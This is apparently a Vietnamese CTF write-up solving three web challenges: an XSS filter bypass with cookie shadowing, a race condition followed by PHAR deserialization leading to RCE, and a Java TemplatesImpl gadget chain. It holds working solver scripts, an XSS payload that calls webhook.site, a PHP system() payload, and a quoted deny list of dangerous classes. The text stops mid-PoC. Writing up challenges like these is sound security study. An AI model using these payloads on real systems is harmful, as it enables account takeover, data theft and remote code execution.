



## 1. ChatGPT Made Me Do It
Nhìn vào dockerfile và docker-compose thì khả năng là 1 bài XSS vì thấy có tải `chromium`.
Nhận thấy XSS xảy ra ở username khi đăng kí tài khoản.Có một bộ lọc yếu để chặn XSS.
```javascript
function santi(str) {
  const tag = str.match(/<([^>]*)>/); // .match chỉ kiếm tra match 1 lần , vì không dùng cờ g

  if (tag && /[a-zA-Z]/.test(tag[1])) {
    return 'no hack';
  }

  return str;
}
```
bộ lọc lấy match trong cặp`<>` chỉ 1 lần (thiếu cờ g).
bypass: `<!---><script>alert(1)</script>`

XSS dính ở endpoint `/immortal-gate/check`

```javascript
router.all('/immortal-gate/check', (req, res) => {
  const name = req.query.name || req.session.username || '';
  res.write(`${santi(decodeURIComponent(String(name)))}, hello`);
  res.end();
});

```

function gửi url cho bot:

```javascript
router.all('/immortal-gate/report', (req, res) => {
  const username = req.session.username;

  if (username === undefined) return res.redirect('/immortal-gate/sign-in');

  if (req.method === 'GET') return res.send(renderReport());

  const url = req.body.url || '';
  if (!url.startsWith('http://') && !url.startsWith('https://')) {
    return res.send(alertBack('❌ Liên kết định dạng sai, phải bắt đầu bằng http:// hoặc https://!'));
  }

  visitUrl(url).catch((error) => {
    console.error(`Error occurred: ${error && error.stack ? error.stack : error}`);
  });
```

ở app.js hoặc nhìn cấu hình ở trình duyệt có cấu hình `httpOnly` nên không đọc được cookies. Nhưng cứ tạo request ra webhook để check trước đã. 


`res.write()` đơn giải chỉ trả về 1 văn bản (text) không xét content-type nên cần sử dụng signature của file html để trình duyệt tự nhận diện


thêm đoạn code sau để chek rõ log:
```
await page.goto(url, { waitUntil: 'domcontentloaded', timeout: 5000 });
	// check url
    const currentUrl = page.url();
    console.log("--- URL THỰC TẾ TRANG ĐANG TRUY CẬP ---");
    console.log(currentUrl);
    
    // check response 
    
    const pageContent = await page.content();
    
    console.log("--- NỘI DUNG HTML TRẢ VỀ TỪ URL ---");
    console.log(pageContent);
    // [THÊM ĐOẠN NÀY] Kiểm tra cách trình duyệt đánh giá nội dung
    const evaluationResult = await page.evaluate(() => {
      const docType = document.contentType; // Kiểu MIME mà trình duyệt thực tế đang gán cho trang
      const hasHtmlStructure = document.querySelector('html') !== null; // Kiểm tra xem có nhận diện ra thẻ html hay không
      const firstChildTag = document.body ? document.body.firstElementChild?.tagName : null;

      return {
        browserContentType: docType,
        hasHtmlTag: hasHtmlStructure,
        firstTag: firstChildTag,
        pageTextLength: document.body ? document.body.innerText.length : 0
      };
    });
    
    console.log("--- ĐÁNH GIÁ CỦA TRÌNH DUYỆT ---");
    console.log(evaluationResult);
```
payload: `http://localhost:3000/immortal-gate/check?name=<!---><script>new Image().src = "https://webhook.site/61b6dfc5-fe15-4492-8437-e04e7d5b367a/?msg=qdz";</script>`


nhận thấy thành công nhưng mà `httpOnly` không đọc được nên cần check function khác: reset password. 
[Cookie Shadowing](https://kalawy.medium.com/cookie-shadowing-and-csp-bypass-to-read-httponly-cookie-way-too-easy-conctf-finals-0de7dda28ee6)

```javascript
router.all('/cultivation/password', (req, res) => {
  const username = req.session?.username;
  const csrfToken = req.cookies.csrf_token;

  if (username === undefined) {
    return res.redirect('/immortal-gate/sign-in');
  } 

  if (req.headers['x-csrf-token'] !== csrfToken) {
    return res.send(alertBack('❌ Tâm ma tác sai, công kích bị ngăn chặn!'));
  }

  const newPassword = req.body.new_password || '';
  users.set(username, newPassword);

  return res.send(alertBack('✨ Công pháp tu sửa thành công!'));
});
```

Từ trình duyệt admin ---> reset passowrd nhưng cần `x-csrf-token'] == csrfToken`

```
Same-name Cookies ordering
When the browser encounters multiple cookies with the same name destined for the same endpoint, how will it order those cookies in the Cookie? Will it send the early created first?
Actually, RFC 6265 §5.4 states that ordering goes as follows:

1. The cookie with the longest path comes first.
2. If two cookies have the same path length, the earliest created one comes first.
```

Theo như câu nói trên thì nếu same-name cookies thì nó ưu tiên path dài hơn . ----> từ XSS tạo 1 cookies name trùng với path khác nhau.
Cấu hình `middleware`
```javascript
const { alertBack } = require('./utils');
const { BASE_URL } = require('./config');

function csrfProtection(req, res, next) {
  const secFetchSite = req.get('Sec-Fetch-Site');
  const secFetchUser = req.get('Sec-Fetch-User');
  const method = req.method;

  if (method === 'GET') {
    return next();
  }

  if (secFetchSite !== undefined && secFetchUser !== '?1') {
    return res.send(alertBack('no hack'));
  }

  return next();

}

module.exports = {
  csrfProtection,
};

```

nếu method là Get thì sẽ không dính , `ecFetchUser` sẽ không được tự động tạo bởi các request bởi `fetch()` , `new Image().src` ,....

**script:**
```javascript
<!---><script>
void (async () => {
   document.cookie = 'csrf_token=quandz; path=/cultivation/password; SameSite=Strict';
   await fetch('/cultivation/password', {
    method: 'GET',
    headers: {
      'x-csrf-token': 'quandz'
    },
    credentials: 'include' 
  });
})();

</script>
```
sử dụng url này : 
```
http://localhost:3000/immortal-gate/check?name=<!---><script>
void(async()=>{document.cookie='csrf_token=quandz; path=/cultivation/password; SameSite=Strict';await fetch('/cultivation/password',{method:'GET',headers:{'x-csrf-token':'quandz'},credentials:'include'});})();
</script>
```
để thay đổi password của admin thành rỗng rồi login lấy flag `username=admin&password=` sau đó truy cập `/immortal-gate/treasure` bằng POST method để lấy flag


Script tự động:
```bash
#!/usr/bin/env python3
import http.cookiejar, random, re, string, sys, time, urllib.parse, urllib.request

HOST = (sys.argv[1] if len(sys.argv) > 1 else "<http://localhost:3000>").rstrip("/")
BOT = "<http://localhost:3000>"
XSS = """<!--><script>void(async()=>{document.cookie='csrf_token=knowncsrf; path=/cultivation/password; SameSite=Strict';await fetch('/cultivation/password',{method:'GET',headers:{'x-csrf-token':'knowncsrf'},credentials:'include'})})();</script>"""
PAY = BOT + "/immortal-gate/check?name=" + urllib.parse.quote(XSS, safe="")
FLAG = re.compile(r"\w+\{[^}]+\}")

def sess():
    return urllib.request.build_opener(urllib.request.HTTPCookieProcessor(http.cookiejar.CookieJar()))

def req(op, path, data=None):
    if isinstance(data, dict):
        data = urllib.parse.urlencode(data).encode()
    return op.open(urllib.request.Request(HOST + path, data=data, method="GET" if data is None else "POST"), timeout=10).read().decode(errors="replace")

s = "".join(random.choices(string.digits, k=10))
u, p = "u" + s, "p" + s
a = sess()
req(a, "/immortal-gate/sign-up", {"username": u, "password": p})
req(a, "/immortal-gate/sign-in", {"username": u, "password": p})
req(a, "/immortal-gate/report", {"url": PAY})
time.sleep(3)
a = sess()
req(a, "/immortal-gate/sign-in", {"username": "admin", "password": ""})
print(FLAG.search(req(a, "/immortal-gate/treasure", b"")).group())

```

## 2. 367

Theo như phân tích của sheet này thì có 1 hướng đánh là:
- 1. RCE thông qua `include ($filename)` ----> chạy `/readflag`
    - yêu cầu: 
        - cần role superadmin
        - cần filename nằm trong `/tmp`
        - nội dung file là php hợp lệ
    
- 2. Ở `delete.php` có dính `Phar serialize` normal user có thể trigger. Tận dụng `PendingPreview` để SSRF bằng cách thông qua `__destruct` gọi `$this->state->flush()`
- 3. Để có lên được `supperadmin` khi `(md5($input_code) === $admin_token && $_SERVER['REMOTE_ADDR'] === '127.0.0.1')` trả về `true`
- 4. `admin` có thể copy file vào `/tmp`

Vấn đề bây  giờ làm sao trở thành admin?? Chỉ có tính năng ở `autologin.php`

`autologin.php`
```php
// xử lý link login nhanh
if (isset($_GET['vault_key'])) {
    $vault_key = mock_sanitize_input($_GET['vault_key']);
    $needle = '%' . mock_esc_like(mock_wp_json_encode($vault_key)) . '%';
    $stmt = $conn->prepare("SELECT user_id FROM user_meta WHERE meta_key = 'vault_autologin_record' AND meta_value LIKE ? ESCAPE '\\\\'");
    $stmt->bind_param('s', $needle);
    $stmt->execute();
    $result = $stmt->get_result();
    $user_ids = [];
    while ($row = $result->fetch_assoc()) {
        $user_ids[] = (int)$row['user_id'];
    }
    $stmt->close();


// tạo link truy cập nhanh bị controll bởi username
if ($action === 'create_by_username') {
        $username = trim($_POST['username'] ?? '');
        $expires_on = $_POST['expires_on'] ?? date('Y-m-d', strtotime('+30 days')); // control bởi user
        $unlimited_use = !empty($_POST['unlimited_use']) ? 'checked' : '';

        if ($username === '') {
            $notice = 'Username is required.';
        } else {
            $user_stmt = $conn->prepare("SELECT id FROM users WHERE username = ? LIMIT 1");
            $user_stmt->bind_param('s', $username);
            $user_stmt->execute();
            $user_result = $user_stmt->get_result();
            $user = $user_result->fetch_assoc();
            $user_stmt->close();

            if ($user) { // lấy user by u
                $code = bin2hex(random_bytes(16));
                $record = [
                    'status' => 'active',
                    'email_list' => '',
                    'token' => $code,
                    'expiry_mode' => 'unchecked',
                    'expires_on' => $expires_on,
                    'unlimited_use' => $unlimited_use ? 'checked' : '',
                ];
                $serialized = serialize($record);
                $stmt = $conn->prepare("INSERT INTO user_meta (user_id, meta_key, meta_value) VALUES (?, 'vault_autologin_record', ?) ON DUPLICATE KEY UPDATE meta_value = VALUES(meta_value)");
                $stmt->bind_param('is', $user['id'], $serialized);
                if ($stmt->execute()) {
                    if ($user['id'] === (int)$_SESSION['user_id']) {
                        $generated_link = '/autologin.php?vault_key=' . urlencode($code);
                        $notice = 'Auto-login link generated for your username.';
                    } else {
                        $cleanup = $conn->prepare("DELETE FROM user_meta WHERE user_id = ? AND meta_key = 'vault_autologin_record'");
                        $cleanup->bind_param('i', $user['id']);
                        $cleanup->execute();
                        $cleanup->close();
                        $generated_link = '';
                        $notice = 'Username does not match your account.';
               ``     }
                } else {
                    $notice = 'Failed to create auto-login link.';
                }
                $stmt->close();
            } else {
                $notice = 'User not found.';
            }
        }
    }
```
- ở tính năng xử lý link truy cập nhanh sử dụng `LIKE` để tìm kiếm` vault_key` là phạm vi quá rộng ---> lập trình không an toàn
- quy trình tạo link truy cập nhanh : 
    1. tạo link dựa trên username (bị controll) lưu vào `user_meta` table
    2. kiểm tra `session_id` và `user_id` nêu trùng thì lưu ở db còn không trùng thì xóa
- Race condition xảy ra ở đây , tài nguyên tranh chấp là giá trị của `link truy cập nhanh` lưu trong db:
```
POST /autologin.php (create_by_username)          GET /autologin.php?vault_key=MARKER
------------------------------------------        --------------------------------------

t0  INSERT row admin
    ┌─────────────────────────────┐
    │ ROW ADMIN TỒN TẠI           │  <-- tài nguyên bắt đầu tồn tại
    └─────────────────────────────┘
                                                   t0.5  SELECT ... LIKE '%MARKER%'
                                                         -> tìm thấy row admin

t1  CHECK: user_id == session_user_id?
    -> false (không phải chính mình)
                                                   t1.5  SET SESSION admin
                                                         -> login thành admin

t2  DELETE row admin
    ┌─────────────────────────────┐
    │ ROW ADMIN BỊ XÓA            │  <-- tài nguyên biến mất
    └─────────────────────────────┘

```

vì chuối `vault_key` là giá trị của `$code` được tạo random và được lưu vào cột  `meta_value` của `user_meta`
 table . Mà giá trị của cột  `meta_value` lại được tạo từ :
```php
$record = [
                    'status' => 'active',
                    'email_list' => '',
                    'token' => $code,
                    'expiry_mode' => 'unchecked',
                    'expires_on' => $expires_on,
                    'unlimited_use' => $unlimited_use ? 'checked' : '',
                ];
$serialized = serialize($record);
```
Kết hợp với toàn tử `LIKE` ở trên thì vấn có thể truy cập được record của user `admin` nếu trên database có record.

Ý tưởng:
- tạo 1 request tạo link truy cập nhanh với user admin có cấu hình `expires_on` 
- 1 request truy cập link với `vault_key=expires_on` 

Script race condition
```python

import requests
import threading
import secrets
import sys

HOST = "http://localhost:8081"
USER_COOKIES = {"PHPSESSID": "f621cf465516e4da0fabf2245625c0dd"}
MARKER = "m" + secrets.token_hex(16)

stop = threading.Event()
winner = None
lock = threading.Lock()

def create_autologin():
    while not stop.is_set():
        try:
            requests.post(
                f"{HOST}/autologin.php",
                cookies=USER_COOKIES,
                data={
                    "action": "create_by_username",
                    "username": "admin",
                    "expires_on": MARKER,
                    "unlimited_use": "on",
                },
                allow_redirects=False,
                timeout=3,
            )
        except requests.RequestException:
            pass

def auto_login():
    global winner
    while not stop.is_set():
        try:
            r = requests.get(
                f"{HOST}/autologin.php?vault_key={MARKER}",
                allow_redirects=False,
                timeout=3,
            )
            if r.status_code == 302 and r.headers.get("Location") == "/index.php":
                with lock:
                    if winner is None:
                        winner = r.cookies.get_dict()
                        print("[+] hit:", winner)
                        stop.set()
                        return
        except requests.RequestException:
            pass

def main():
    print("[*] Target:", HOST)
    print("[*] Marker:", MARKER)

    threads = []

    for _ in range(20):
        threads.append(threading.Thread(target=create_autologin, daemon=True))

    for _ in range(50):
        threads.append(threading.Thread(target=auto_login, daemon=True))

    for t in threads:
        t.start()

    try:
        for t in threads:
            t.join()
    except KeyboardInterrupt:
        stop.set()

    if winner:
        print("[+] SUCCESS")
        print("[+] Cookie admin:", winner)
    else:
        print("[-] No hit. Tăng thread hoặc chạy lại.")
        sys.exit(1)

if __name__ == "__main__":
    main()
```


`admin ----> supperadmin` cần `$admin_token` và `$_SERVER['REMOTE_ADDR'] === '127.0.0.1'` mà `$admin_token` lấy từ `header('X-Archive-Receipt: ' . $bridge_receipt);` của `dashboard.php`

Tận dụng Object trong `delete.php` để SSRF


`X-Archive-Receipt: QVJDSElWRS1BRDQxQjAxOEYxRDY1OEE5`

**Script tạo file phar**
```php
<?php
/**
 * build_phar.php
 *
 * Tạo file PHAR chứa metadata là object gadget chain.
 * Chạy: php -d phar.readonly=0 build_phar.php
 */

// ============================================================
// [1] GADGET CHAIN CLASSES
//     Phải khai báo ĐÚNG tên + visibility như trên target,
//     nếu không unserialize sẽ fail khi đọc PHAR.
// ============================================================

class PreviewState {
    public $endpoint;
    private $headers;
    private $payload;
    private $sessionNote;

    public function __construct(string $endpoint, string $payload = '', string $sessionNote = '', array $headers = []) {
        $this->endpoint    = $endpoint;
        $this->payload     = $payload;
        $this->sessionNote = $sessionNote;
        $this->headers     = $headers;
    }
}

class PendingPreview {
    public $state;

    public function __construct(PreviewState $state) {
        $this->state = $state;
    }
}

// ============================================================
// [2] CUSTOM — SỬA PHẦN NÀY
//     Đây là chỗ bạn nhét payload thật.
// ============================================================

// Tham số cho request SSRF
$endpoint   = 'http://127.0.0.1/admin.php';   // URL curl sẽ gọi tới
$token      = 'ARCHIVE-51E2F8950A1673BA';     // access_code
$sessionId  = 'a811fc7c7c217f2ba5207c5869cf3b8f'; // PHPSESSID của admin

// POST body
$body = http_build_query(['access_code' => $token]);

// Cookie
$cookie = 'PHPSESSID=' . $sessionId;

// Header bổ sung (để rỗng nếu không cần)
// Nếu cần gửi header, dùng int trực tiếp để tránh lỗi thiếu curl extension:
//   10002 = CURLOPT_HTTPHEADER
// Ví dụ:
//   $headers = [10002 => ['X-Archive-Receipt: ' . $token]];
$headers = [];

// Build gadget chain
$gadget = new PendingPreview(
    new PreviewState($endpoint, $body, $cookie, $headers)
);

// ============================================================
// [3] PHAR CONFIG — có thể sửa nếu cần
// ============================================================

$outputPath = __DIR__ . '/out.jpg';        // file cuối cùng (đổi đuôi .jpg/.png)
$tempPhar   = __DIR__ . '/.tmp_build.phar'; // file PHAR tạm (native)

// Prefix magic bytes để ngụy trang (tùy chọn).
// - Để rỗng nếu không cần:      ''
// - JPEG:                        "\xff\xd8\xff\xe0"
// - PNG:                         "\x89PNG\r\n\x1a\n"
// - GIF:                         "GIF89a"
$stubPrefix = '';

// Tên entry bên trong PHAR (bắt buộc PHAR phải có ít nhất 1 entry)
// Đặt .jpg để pathinfo() trên target trả về "jpg" → qua check extension.
$innerName    = 'x.jpg';
$innerContent = 'x';

// ============================================================
// [4] BUILD PHAR
// ============================================================

if (PHP_SAPI !== 'cli') {
    fwrite(STDERR, "Run from CLI.\n");
    exit(1);
}

if (filter_var(ini_get('phar.readonly'), FILTER_VALIDATE_BOOLEAN)) {
    fwrite(STDERR, "phar.readonly is ON. Run with: php -d phar.readonly=0 build_phar.php\n");
    exit(1);
}

@unlink($tempPhar);
@unlink($outputPath);

$phar = new Phar($tempPhar);
$phar->startBuffering();

$phar->addFromString($innerName, $innerContent);
$phar->setStub($stubPrefix . "<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($gadget);

$phar->stopBuffering();
unset($phar);   // QUAN TRỌNG: đóng handle trước khi copy

copy($tempPhar, $outputPath);
@unlink($tempPhar);

// ============================================================
// [5] DEBUG
// ============================================================

echo "=== Serialized metadata ===\n";
echo str_replace("\0", '\\0', serialize($gadget)) . "\n\n";

echo "=== Output ===\n";
echo "File:   $outputPath\n";
echo "Size:   " . filesize($outputPath) . " bytes\n";

echo "\n=== Verify ===\n";
echo "Run these to check:\n";
echo "  file $outputPath\n";
echo "  php -r 'var_dump(file_get_contents(\"phar://$outputPath/$innerName\"));'\n";
echo "  php -r 'var_dump((new Phar(\"$outputPath\"))->getMetadata());'\n";

echo "\nUpload $outputPath then trigger delete.php with:\n";
echo "  title=phar:///absolute/path/to/uploads/" . basename($outputPath) . "/$innerName\n";

```

upoad và xóa file để trigger deserialize
`title=phar:///tmp/f22c57f40902af1e/ld93xz7a5Yk5u.jpg/x.jpg`


Sau khi lên được supperadmin nghĩ là xong rồi như code có lower file name nên không thể gọi.
```php
if (!empty($_SESSION['admin'])) {
    if ($bridge_receipt !== '') {
        header('X-Archive-Receipt: ' . $bridge_receipt);
    }

    if ($_POST['filename']) {
        include "./templates/dashboard.html";
        if (!empty($_SESSION['superadmin'])) {
            $filename = strtolower(trim($_POST['filename']));
            if (strpos($filename, '/tmp') !== 0 || strpos($filename, '../') !== false) {
                echo "<div class='center-text'>Only /tmp paths are allowed.</div>";
            } else if (!file_exists($filename)) {
                echo "<div class='center-text'>File not found.</div>";
            } else {
                include ($filename);
            }
        } else {
            echo "<div class='center-text'>Superadmin access required.</div>";
        }
    }
    else {
        include "./templates/dashboard.html";
    }
}
```
**giải pháp:**

cấu hình webbook với `Set-Cookie: X=<?php system('/readflag'); ?>`

truy cập [requex](https://requex.me/hook/c2e89953-f828-4d4a-9cb3-e895f28183bf) cấu hình như sau:


thực hiện tương tự như trên upload --> delete ---> đọc file qua `dashboard.php` để trigger RCE.


 `FLAG: KMACTF{SQLinjection_1s_GOAT_96c9885e9b9ffd834c64855aa447175e}`


 ## 3. Reachingme
- Ở controller có dính deserialize
```java
@RestController
public class ControlMeeeController {
    @GetMapping({"/"})
    public String home() {
        return "Wellcome to KMACTFer!!!";
    }

    @PostMapping({"/api"})
    public String api(HttpServletRequest request) throws Exception {
        byte[] input = request.getInputStream().readAllBytes();
        byte[] decoded = Base64.getDecoder().decode((new String(input)).trim());

        try (SecurityObjectInputStream ois = new SecurityObjectInputStream(new ByteArrayInputStream(decoded))) {
            Object obj = ois.readObject();
            return "ok";
        } catch (Exception var9) {
            return "ok";
        }
    }
}
```

Black_list trong file `hook.json`
```
{
  "FileHook": {
    "doFileHook": true,
    "dangerPaths": [
      "/etc/passwd",
      "work/Tomcat/localhost"
    ]
  },

  "JNDIHook": {
    "doJNDIHook": true
  },

  "RCEHook": {
    "doRCEHook": true,
    "safeCommands": []
  },

  "SerialHook": {
    "doSerialHook": true,
    "serialClassName": "com/kcsc/reachingme/security/SecurityObjectInputStream",
    "dangerClasses": [
      "java.lang.Runtime",
      "java.lang.Process",
      "java.lang.ProcessBuilder",
      "java.lang.ProcessImpl",
      "java.lang.UNIXProcess",

      "java.lang.reflect.Method",
      "java.lang.reflect.Constructor",
      "java.lang.reflect.Field",

      "java.beans.Expression",
      "java.beans.Statement",

      "javax.naming.InitialContext",
      "javax.naming.Context",
      "javax.naming.spi.NamingManager",
      "com.sun.jndi",

      "javax.script.ScriptEngineManager",
      "javax.script.ScriptEngine",

      "java.lang.ClassLoader",
      "java.net.URLClassLoader",

      "java.io.FileOutputStream",
      "java.io.FileWriter",
      "java.io.RandomAccessFile",
      "java.io.BufferedWriter",
      "java.io.PrintWriter",

      "java.nio.channels.FileChannel",

      "org.springframework.util.ReflectionUtils",
      "org.springframework.cglib.core.ReflectUtils",

      "org.springframework.expression.Expression",
      "org.springframework.expression.spel.standard.SpelExpressionParser",
      "org.springframework.expression.spel.support.StandardEvaluationContext",

      "org.apache.catalina.core.StandardContext",
      "org.apache.catalina.core.ApplicationContext",
      "org.apache.catalina.core.ApplicationFilterConfig",
      "org.apache.catalina.core.StandardWrapper",
      "org.apache.catalina.loader.WebappClassLoaderBase",
      "org.apache.catalina.connector.Request",
      "org.apache.catalina.connector.Response"
    ]
  },

  "SpELHook": {
    "doSpELHook": true,
    "dangerSpELs": [
      "java.lang.Runtime",
      "java.lang.Process",
      "java.lang.ProcessBuilder",
      "java.lang.ProcessImpl",
      "java.lang.UNIXProcess",

      "javax.script.ScriptEngineManager",
      "java.net.URLClassLoader",
      "java.lang.ClassLoader",
      "java.lang.Class",

      "java.lang.reflect.Method",
      "java.lang.reflect.Constructor",
      "java.lang.reflect.Field",

      "javax.naming.InitialContext",
      "javax.naming.Context",

      "java.lang.System",

      "java.io.FileOutputStream",
      "java.io.FileWriter",
      "java.io.RandomAccessFile",
      "java.io.BufferedWriter",
      "java.io.PrintWriter",

      "java.nio.channels.FileChannel",

      "T(java.nio.file.Files).write",
      "T(java.nio.file.Files).writeString",
      "T(java.nio.file.Files).createFile",
      "T(java.nio.file.Files).createDirectory",
      "T(java.nio.file.Files).createDirectories",
      "T(java.nio.file.Files).delete",
      "T(java.nio.file.Files).deleteIfExists",
      "T(java.nio.file.Files).copy",
      "T(java.nio.file.Files).move",
      "T(java.nio.file.Files).newOutputStream",
      "T(java.nio.file.Files).newBufferedWriter",

      "org.springframework.cglib.core.ReflectUtils",
      "org.springframework.util.ReflectionUtils"
    ]
  },

  "NioFileWriteHook": {
    "doNioFileWriteHook": true,
    "dangerMethods": [
      "java.nio.file.Files.write",
      "java.nio.file.Files.writeString",
      "java.nio.file.Files.createFile",
      "java.nio.file.Files.createDirectory",
      "java.nio.file.Files.createDirectories",
      "java.nio.file.Files.delete",
      "java.nio.file.Files.deleteIfExists",
      "java.nio.file.Files.copy",
      "java.nio.file.Files.move",
      "java.nio.file.Files.newOutputStream",
      "java.nio.file.Files.newBufferedWriter"
    ]
  },

  "SqlHook": {
    "doSqlHook": false
  }
}
```

- `SerialHook`: Chặn các  class không được deserialize
- `RCEHook`: Giám sát các điểm có khả năng thực thi lệnh hệ thống
    ```
    java.lang.Runtime
    java.lang.ProcessBuilder
    java.lang.Process
    java.lang.ProcessImpl
    java.lang.UNIXProcess
    ```
- `FileHook`: Giám sát các thao tác đọc/ghi file sử dụng các API truyền thống

- Không được sử dụng `java/io/FileInputStream`  -----> dùng `java.nio.file.Files` để thay thế.
- [Gadget chain](https://bumjunrh.kr/posts/finding-gadgets-like-its-2026-en/) này phù hợp với bài này. 
- tóm tắt gadget chain:
```
Victim: new ObjectInputStream(input).readObject()
  → HashMap.readObject() → putVal()                          [JDK]
    → hash collision (HotSwappableTargetSource.hashCode() is constant) [Spring AOP]
    → HotSwappableTargetSource.equals()                      [Spring AOP]
      → XString.equals(POJONode)                             [JDK, java.xml]
        → obj2.toString()
        → POJONode.toString()                                [Jackson]
          → BaseJsonNode.toString()
          → InternalNodeMapper.nodeToString()
          → ObjectWriter.writeValueAsString()
          → POJONode.serialize()
          → ctxt.defaultSerializeValue(_value, gen)          (_value = Proxy(Templates))
            → Jackson recognizes getter on the Templates interface
            → proxy.getOutputProperties()                    [JDK Proxy]
              → JdkDynamicAopProxy.invoke()                  [Spring AOP]
                → AdvisedSupport.targetSource
                → SingletonTargetSource.getTarget()
                → target = TemplatesImpl
                → AopUtils.invokeJoinpointUsingReflection()
                  → method.invoke(TemplatesImpl)
                    → TemplatesImpl.getOutputProperties()    [JDK, java.xml]
                      → newTransformer()
                      → getTransletInstance()
                      → defineTransletClasses()
                        → "jdk.translet" module creation + export setup
                        → defineClass(_bytecodes[i])
                      → getConstructor().newInstance()
                        → <clinit>
                        → Runtime.getRuntime().exec()
                        → RCE
```
- Sink ở đây tương tự [CC2](https://github.com/duongdinhquan/cybersecurity-notes/blob/main/Documents/Java%20serialize/Commons%20Collections%202.md) là `emplatesImpI` chèn mã độc vào `_bytecode`
- Do response chỉ trả về ok nên cần can thiệp `HttpServletResponse`  để trả về nội dung flag.
- Code truyền vào `_bytecode` nếu load từ file sẽ dạng như sau:
```java
package die.verwandlung;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Auto extends AbstractTranslet {
    static {
        try {
            // 1. Tự động quét thư mục gốc tìm file flag
            java.io.File root = new java.io.File("/");
            String[] entries = root.list();
            String flagPath = null;
            if (entries != null) {
                for (String entry : entries) {
                    if (entry.startsWith("flag-") && entry.endsWith(".txt")) {
                        flagPath = "/" + entry;
                        break;
                    }
                }
            }
            
            String output;
            if (flagPath != null) {
                // 2. Đọc file flag né FileHook
                byte[] data = java.nio.file.Files.readAllBytes(java.nio.file.Path.of(flagPath));
                output = new String(data).trim();
            } else {
                output = "flag not found";
            }

            // 3. Leak dữ liệu qua HTTP Response hiện tại
            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            Class<?> rchClass = Class.forName("org.springframework.web.context.request.RequestContextHolder", true, cl);
            Object attrs = rchClass.getMethod("getRequestAttributes").invoke(null);
            // Kiểm tra context reqeust có thực sự tồn tại không?
            if (attrs != null) {
                Class<?> sraClass = Class.forName("org.springframework.web.context.request.ServletRequestAttributes", true, cl);
                // Lấy HttpServletResponse thực tế đang phục vụ request đó.
                Object response = sraClass.getMethod("getResponse").invoke(attrs);
                if (response != null) {
                    response.getClass().getMethod("setStatus", int.class).invoke(response, 200);
                    response.getClass().getMethod("setContentType", String.class).invoke(response, "text/plain");

                    // ghi response body
                    Object os = response.getClass().getMethod("getOutputStream").invoke(response);
                    os.getClass().getMethod("write", byte[].class).invoke(os, output.getBytes());
                    os.getClass().getMethod("flush").invoke(os);
                    response.getClass().getMethod("flushBuffer").invoke(response);
                }
            }
        } catch (Throwable e) {
            e.printStackTrace(System.err);
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```


FUll POC CREATE SERIALIZE STRING:
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
